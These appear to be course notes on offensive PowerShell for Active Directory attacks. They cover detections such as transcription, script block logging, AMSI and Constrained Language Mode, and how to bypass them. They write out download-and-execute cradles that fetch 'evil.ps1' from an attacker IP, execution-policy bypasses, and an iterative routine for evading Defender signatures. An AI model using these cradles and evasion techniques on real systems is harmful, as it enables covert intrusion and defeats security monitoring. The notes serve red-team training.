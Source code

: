 # PowerShell
- "PowerShell is a cross-platform task automation solution made up of a command-line shell, a scripting language, and a configuration management framework."
- PowerShell comes installed by-default on all the modern Windows OS.
- PowerShell is NOT powershell.exe. It is the System.Management.Automation.dll
- We will use Windows PowerShell. There is a platform independent PowerShell Core as well.

# PowerShell Scripts and Modules
- Load a PowerShell script using dot sourcing:
	- `. C:\AD\Tools\PowerView.ps1`
- A module (or a script) can be imported with:
	- `Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1`
- All the commands in a module can be listed with:
	- `Get-Command -Module <modulename>`

# PowerShell Script Execution
- Download execute cradle:
	- `iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')`
	- `$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response`
- PSv3 onwards:
	- `iex (iwr 'http://192.168.230.1/evil.ps1')`
	- `$h=New-Object -ComObject`
	  `Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex`
	  `$h.responseText`
	- `$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")`
	  `$r = $wr.GetResponse()`
	  `IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()`

# PowerShell Detections
- System-wide transcription
	- System-wide transcription is not enabled by default, and requires configuration OOTB
	- Not very widely adopted, but exists theoretically
	- Organisations started to block powershell.exe, so attackers started utilising custom runspaces, for example, they would load the powershell DLL from unmanaged core, in which case even if powershell.exe was blocked, attackers would still be able to run PowerShell commands or scripts on the system.
	- System-wide transcription logs PowerShell commands and their outputs system-wide, regardless of the host used to run them.
	- However the logging is in a clear-text format, as an unprotected log, if the logs directory is specified for example as `C:/transcripts`, anybody with access to the system can view the logs.
	- Any credentials used on the CLI, or fetched from remote on the CLI would be logged in clear-text as well, without protecting the secrets.
- Script Block logging
	- Script Block logging is enabled by default
	- There are two types of Script Block logging:
		- 4103 (Warning Level)
		- 4104 (Verbose)
	- Script Block logging logs any suspicious script blocks
	- More of a nuisance than an actual security control
- AntiMalware Scan Interface (AMSI)
	- AMSI facilitates detection not only for Windows scripts like PowerShell, JS or VBS, but also for .NET and Macros.
	- Right before the execution of a script, AMSI steps in, picks the content of a script and sends it to the machine's registered AV for signature based detection.
- Constrained Language Mode (CLM)
	- CLM prevents us from doing much "fun" stuff
	- From all the PowerShell tools we will discuss, only Microsoft's own AD module works under CLM, all other tools stop working
	- Integrated with Applocker and WDAC (Windows Defender Application Control) - Device Guard
	- If any restriction exists on the execution of scripts anywhere on the machine, Windows PowerShell 5.1 will relegate itself to the Constrained Language Mode
	- There are 4 language modes:
		- No Language Mode
			- Used by JEA (Just Enough Administration), which is a sandboxed PowerShell remote session that is designed to strictly limit what the logged on user can do.
		- Constrained Language Mode
		- Restricted Language Mode
		- Full Language Mode

# Execution Policy
- It is NOT a security measure, it is present to prevent user from accidently executing scripts.
- Several ways to bypass:
	- `powershell -ExecutionPolicy bypass`
	- `powershell -c <cmd>`
	- `powershell -encodedcommand`
	- `$env:PSExecutionPolicyPreference="bypass"`
![[Pasted image 20250320191426.png]]

# PowerShell Tradecraft
- Offensive PowerShell is not dead.
- The detections depend on your target organization and if you are using customized code.
- There are bypasses and then there are obfuscated bypasses!
- Remember, the focus of the class is Active Directory :)

# Bypassing PowerShell Security
#### Invisi-Shell (https://github.com/OmerYa/Invisi-Shell)
- We will use Invisi-Shell (https://github.com/OmerYa/Invisi-Shell) for bypassing the security controls in PowerShell.
- The tool hooks the .NET assemblies (System.Management.Automation.dll and System.Core.dll) to bypass logging
- It uses a CLR Profiler API to perform the hook.
- "A common language runtime (CLR) profiler is a dynamic link library (DLL) that consists of functions that receive messages from, and send messages to, the CLR by using the profiling API. The profiler DLL is loaded by the CLR at run time."
- Invisi-Shell can bypass:
	- System-wide transcription
	- Script Block logging
	- AntiMalware Scan Interface (AMSI)
- Using Invisi-Shell:
	- With admin privileges: `RunWithPathAsAdmin.bat`
	- With non-admin privileges: `RunWithRegistryNonAdmin.bat`
	- Type `exit` from the new PowerShell session to complete the clean-up.

# Bypassing AV Signatures for PowerShell
- We can always load scripts in memory and avoid detection using AMSI bypass.
- How do we bypass signature based detection of on-disk PowerShell scripts by Windows Defender?
- #### AMSITrigger (https://github.com/RythmStick/AMSITrigger) and DefenderCheck (https://github.com/t3hbb/DefenderCheck)
	- We can use AMSITrigger or DefenderCheck to identify code and strings from a binary or script that Windows Defender may flag.
	- Simply provide path to the script file to scan it:
		- `AmsiTrigger_x64.exe -i C:\AD\Tools\Invoke-PowerShellTcp_Detected.ps1`
		- `DefenderCheck.exe PowerUp.ps1`
	- Steps to avoid signature based detection are pretty simple:
		1. Scan using AMSITrigger
		2. Modify the detected code snippet
		3. Rescan using AMSITrigger
		4. Repeat the steps 2 & 3 till we get a result as “AMSI_RESULT_NOT_DETECTED” or “Blank”
	- Some more tips to avoid signature based detection:
		- Using only the minimal portion of a script is also useful.
		- We can remove the part of a script that is getting detected but is not used.
		- For this we can scan the script with DefenderCheck and then use the ByteToLineNumber.ps1 script in the C:\AD\Tools folder.
- #### Invoke-Obfuscation (https://github.com/danielbohannon/Invoke-Obfuscation)
	- For full obfuscation of PowerShell scripts, see Invoke-Obfuscation.
	- It is used for obfuscating the AMSI bypass in the course!